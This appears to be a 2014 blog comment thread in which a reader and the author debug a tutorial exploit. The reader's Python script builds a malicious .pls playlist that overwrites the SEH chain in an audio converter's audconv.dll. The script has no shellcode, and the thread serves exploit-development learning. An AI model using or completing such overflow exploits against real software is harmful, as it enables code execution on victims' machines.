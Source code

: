 I dont see the address in the SEH Chain, the above is in the SEH Chain after the crash
<hr />
#### Tried a few different addresses, no luck
[Anonymous]( "noreply@blogger.com") - <time datetime="2014-07-17T08:51:34.125-07:00">Jul 4, 2014</time>

Tried a few different addresses, no luck
<hr />
#### Can you paste the code that you are using? I don&#...
[thetekwizz](https://www.blogger.com/profile/07021907186760706163 "noreply@blogger.com") - <time datetime="2014-07-17T09:39:48.034-07:00">Jul 4, 2014</time>

Can you paste the code that you are using? I don't have the setup on me at present but I'll try see what error might be going on?
<hr />
#### #!/usr/bin/python junk = "A" \* 4432 nseh...
[Anonymous]( "noreply@blogger.com") - <time datetime="2014-07-17T09:53:51.506-07:00">Jul 4, 2014</time>

#!/usr/bin/python
junk = "A" \* 4432
nseh = "DDDD"
seh = "\\x2D\\xC8\\x04\\x10"
trigger = "C" \* (50000 - (len(junk) + len(seh)))
buffer = junk + nseh + seh + trigger

handle = open("audioExploitDemo.pls", "w")
handle.write(buffer)
handle.close()
<hr />
#### For that exploit are you placing a breakpoint at 0...
[thetekwizz](https://www.blogger.com/profile/07021907186760706163 "noreply@blogger.com") - <time datetime="2014-07-17T10:01:49.659-07:00">Jul 4, 2014</time>

For that exploit are you placing a breakpoint at 0x1004C82D? Another thing to try potentially would be to edit this line:

handle = open("audioExploitDemo.pls", "w")

to this:

handle = open("audioExploitDemo.pls", "wb")

and see if that works at all?
<hr />
#### Yep that address, according to your post it should...
[Anonymous]( "noreply@blogger.com") - <time datetime="2014-07-17T10:15:22.143-07:00">Jul 4, 2014</time>

Yep that address, according to your post it should be in the address space of the audconv.dll
and that ranges from 0x10000000 to 0x101c9000 so that address should be in there ??

"wb" Doesn't work, i added a bunch of address in immunity as break points, i can see that executions happen on the break points but it just keeps executing !!!
<hr />
#### Can you send an email to tekwizz123@gmail.com with...
[thetekwizz](https://www.blogger.com/profile/07021907186760706163 "noreply@blogger.com") - <time datetime="2014-07-17T11:46:55.479-07:00">Jul 4, 2014</time>
